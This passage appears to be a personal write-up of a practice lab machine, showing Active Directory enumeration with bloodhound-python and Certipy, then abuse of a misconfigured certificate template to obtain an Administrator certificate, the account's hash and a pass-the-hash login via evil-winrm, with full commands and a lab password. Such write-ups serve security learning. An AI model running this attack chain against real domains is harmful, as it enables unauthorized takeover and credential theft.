<figure><figcaption><p>Evil WinRM as Jodie.Summers</p></figcaption></figure>

### Getting to Admin

I really need to enumerate the domain but I cannot run things on the victim because of Defender. Luckly, [Bloodhound](../../windows/active-directory/enumeration/automated.md#analysis-with-bloodhound) has an external enumeration tool `bloodhound-python` which is installed on Kali by default. It works basically the same way as [SharpHound](../../windows/active-directory/enumeration/automated.md#sharphound) except it needs a bit of extra information since it is called externally. The basic command structure is:


```bash
bloodhound-python -u <username> -p <password> -d <domain> -ns <domain_controller_ip> -c <collection_method> --zip -v
```


* `-ns` is used to provide the IP for DNS. When enumerating from a non-domain-connected machine this will be the IP of the DC
* `--zip` zips the results as SharpHound does
* \-`c <collection_method>` is the same as the `--CollectionMethods` for SharpHound. It will usually be set to `Session` or `All`
* `-v` is verbose

The command to enumerate the domain using the `jodie.summers` account is:


```bash
bloodhound-python -u jodie.summers -p 'hHO_S9gff7ehXw' -v --zip -c All -d nara-security.com -ns 192.168.210.30
```


When run it generates the standard output, I can upload it to BloodHound and be on my way:

<figure><figcaption><p>All users in Bloodhound</p></figcaption></figure>

### Certipy

At this point I ran a `certipy` scan to see what certificates were in the domain and if they could be leveraged. This was run as `jodie.summers` with the command:


```bash
certipy-ad find -u jodie.summers -p 'hHO_S9gff7ehXw' -dc-ip 192.168.210.30 -enabled -old-bloodhound
```


The output was then uploaded to BloodHound (alongside the data collected earlier).

### Finding a Vulnerable Certificate

As I start poking around BloodHound with all of the data I see something interesting examining the Outbound Object Control for one of my owned users (jodie.summers):

<figure><figcaption></figcaption></figure>

It appears that `jodie` is a member of a group (`Enrollment`) that has `GenericAll` control over the `NARAUSER` certificate template.

### Leveraging a Certificate

I start looking at the `NARAUSER` template a little more carefully and see some helpful things:

<figure><figcaption></figcaption></figure>

I notice that it allows Client Authentication, the enrollee supplies the subject, and it is an owner for the `Administrator` account.

In theory this means, as `jodie.summers` I should be able to request an authentication certificate that would allow me to authenticate as `Administrator`. This will be achieved with [Certipy](../../windows/active-directory/enumeration/automated.md#certipy).

#### Requesting the Certificate

I will use the following command to request a certificate:


```bash
certipy-ad req -u jodie.summers -p 'hHO_S9gff7ehXw' -dc-ip 192.168.210.30 -target nara-security.com -ca NARA-CA -template NaraUser -upn administrator@nara-security.com -debug 
```


Once run the certificate is saved as `administrator.pfx`:


#### Authenticating with the Certificate


```bash
certipy-ad auth -pfx administrator.pfx -domain nara-security.com -dc-ip 192.168.210.30 -username administrator
```


This outputs the hash for the `Administrator` user:


#### Using the Hash

At this point I can just use the second half of the hash with evil-winrm:


```bash
evil-winrm -u administrator -H  192.168.210.30
```



Administrator access achieved.

## Learned

* **ldeep:** I had not used this tool before. It is a very helpful substitute for PowerView and the like in situations where I can reach a domain controller from the network but I cannot run enumeration tools on any of the victim machines
* **AD CS:** I was unfamiliar with AD CS prior to encountering this machine and needing hints to get through it. It took awhile to understand but now that I have my writeups, refreshing myself should be easy enough
* **Certipy:** Having never encountered AD CS I also had not encountered any tools to interact with it.

### Difficulty Rating

* **Foothold 8/10:** Initial compromise of `tracy.white` use was really easy. Getting from there to code execution was difficult. I needed a hint to use `ldeep` and manipulate the `Remote Access` AD group&#x20;
* **Privilege Escalation 8/10:** It was really simple once explained but I needed hints to get through
